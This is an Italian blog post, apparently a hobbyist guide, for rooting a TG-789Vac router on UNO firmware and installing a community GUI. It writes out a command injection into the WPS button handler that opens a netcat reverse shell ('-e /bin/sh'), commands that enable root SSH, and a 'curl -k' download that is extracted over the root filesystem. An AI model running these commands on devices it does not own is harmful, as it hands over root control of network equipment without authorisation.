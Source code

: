 ```yaml
---
layout: post
title:  "ROOT e Custom GUI per TG-789Vac"
date:   2019-02-25 00:00:00 
---
```

Il router in questione è quello bianco della foto, in Italia viene distribuito da Tim o Fastweb per abbonamenti vdsl.
<a href="/media/agtot/router.png"><img src="/media/agtot/router.png" alt="Agpwi Photo" style="float: right;" />  

Guida al Root del dispositivo, con firmware UNO aggiornato all'ultima versione (17.2). 
Se non hai ancora installato il firmware UNO eccoti la guida: [Come Flashare UNO TG-789Vac]({% post_url 2018-08-05-AGTOT-FW %})


><span style="color:red">**DISCLAIMER**</span>: Non mi ritengo responsabile per eventuali router brickati, eventuali gatti morti o guerre termonucleari dovute ad un malfunzionamento del suddetto prodotto.  

><span style="color:red">**NOTA**</span>: La procedura viene eseguita su Linux  



**Procedimento:**

1. Impostare netcat in ascolto sul proprio pccon: ```nc -lvvp 1337```

2. Loggarsi sul router in SSH usando come credenziali:
```
        -Username: engineer
        -Password: quella usata per loggarsi come admin nella webui
```
        
2. Dare questo comando: ```set uci.button.button.@wps.handler 'nc 192.168.1.X 1337 -e /bin/sh'```

3. Premere il pulsante laterale per far partire netcat 

4. Dare questi comandi sulla shell netcat aperta:
```
    set uci.button.button.@wps.handler 'wps_button_pressed.sh'
    sed -i 's#root:/bin/false#root:/bin:ash#' /etc/passwd
    uci set dropbear.lan.RootPasswordAuth='on'
    uci set dropbear.lan.RootLogin='1'
    uci commit
    /etc/init.d.dropbear restart
    passwd
```
Con il comando ```passwd``` chiedera' di inserire la password dell'utente root. 

5. Fine. Ora e' possibile loggarsi in SSH come root/password 


**Procedura per installare la gui di ansuel:**

><span style="color:red">**NOTA**</span>: Per evitare vari problemi alla ui, e' consigliabile aver gia' configurato il modem per la navigazione in internet.

1. Loggarsi sul router in SSH come root ( vedi sopra)

2. Dare i seguenti comandi:
```
    curl -k https://raw.githubusercontent.com/Ansuel/gui-dev-build-auto/master/GUI.tar.bz2 --output /tmp/GUI.tar.bz2
    bzcat /tmp/GUI.tar.bz2 | tar -C / -xvf -
    /etc/init.d/rootdevice force
```
A procedura finita, e' consigliabile riavviare il modem con ```reboot```

3. Godersi la nuova ui! (creata da ANSUEL, pagina [GitHub](https://github.com/Ansuel/tch-nginx-gui) )


**Fine**


<div id="disqus_thread"></div>
<script>

/**
*  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
*  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables*/
/*
var disqus_config = function () {
this.page.url = https://pietrotti97.com/pagine/a-router/mod-fw/2019/02/25/AGTOT-root.html;  // Replace PAGE_URL with your page's canonical URL variable
this.page.identifier = agtotroot; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
};
*/
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://pietrotti97.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>




